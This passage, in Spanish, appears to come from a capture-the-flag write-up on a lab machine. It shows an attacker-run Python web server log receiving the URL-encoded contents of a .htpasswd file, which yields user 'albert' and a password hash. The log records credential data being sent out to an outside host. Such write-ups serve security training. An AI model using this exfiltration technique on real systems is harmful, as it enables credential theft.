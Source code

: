 <figure><img src="../../.gitbook/assets/imagen (220).png" alt="" width="563"><figcaption></figcaption></figure>

Desde nuestro servidor Web, verificaremos que hemos recibido el contenido del archivo `.htpasswd`.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.44 - - [21/Jan/2025 22:41:26] "GET /?file_content=%3Cpre%3Ealbert%3A%24apr1%24bMoRBJOg%24igG8WBtQ1xYDTQdLjSWZQ%2F%0A%3C%2Fpre%3E%0A HTTP/1.1" 200 -
```

Descodificaremos el contenido obtenido a través de `Cyberchef` y logramos tener el archivo en texto plano. Comprobamos que nos aparece el usuario `albert` y su contraseña en formato hash.
